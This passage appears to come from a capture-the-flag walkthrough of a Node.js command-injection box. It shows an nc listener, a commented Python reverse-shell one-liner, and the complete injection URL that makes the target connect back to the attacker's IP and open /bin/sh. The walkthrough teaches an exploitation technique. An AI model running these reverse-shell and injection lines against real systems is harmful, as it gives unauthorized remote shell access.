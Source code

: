 ```bash
# It makes sense for a server to connect to a high numbered port on a client
nc -vlp 44551
```

Here is our one line of Python to spawn the reverse shell connection.  We will expand it to multiple lines so we can see what it does exactly.
```python
# Run with python -c '<code on one line>'

# Import necessary libraries
import socket,subprocess,os

# Set up a socket that we can send and receive data through
# AF_INET is IPv4, SOCK_STREAM is TCP.  You could use socket.SOCK_DGRAM for UDP.
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)

# Connect to our machine on port 44551
s.connect(("10.10.15.231",44551))

# dup2 copies the first file descriptor to the second file descriptor.
# In the next three lines, we are duplicating the socket's file descriptor to standard input, standard output, and standard error respectively
# This sends the data to / from those streams through the socket
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)

# Spawn /bin/sh.  Since the standard input streams are duplicated to the socket, we can interact with this shell
p=subprocess.call(["/bin/sh","-i"]);'
```

We will access the following URL and wait:
```
http://10.10.10.85:8002/?cmd=python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.15.231",44551));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
![Received reverse shell](10_shell_with_python.PNG)

We will spawn a "real" terminal so that we are not confined to the reverse shell.  This will give us things like up arrow history and allow us to run some commands that require a terminal:
```bash
python -c 'import pty; pty.spawn("/bin/bash")' 
```
If we look at the contents of sun's home directory, we see a file called output.txt owned by root:

[1]: https://expressjs.com/ "Express JS Framework"
[2]: http://www.websecgeeks.com/2017/04/pentesting-nodejs-application-nodejs.html "Web Security Geeks - Penetration Testing Node.js Application"
[3]: https://nodejs.org/api/child_process.html#child_process_child_process_exec_command_options_callback "Node.js Documentation: child_process"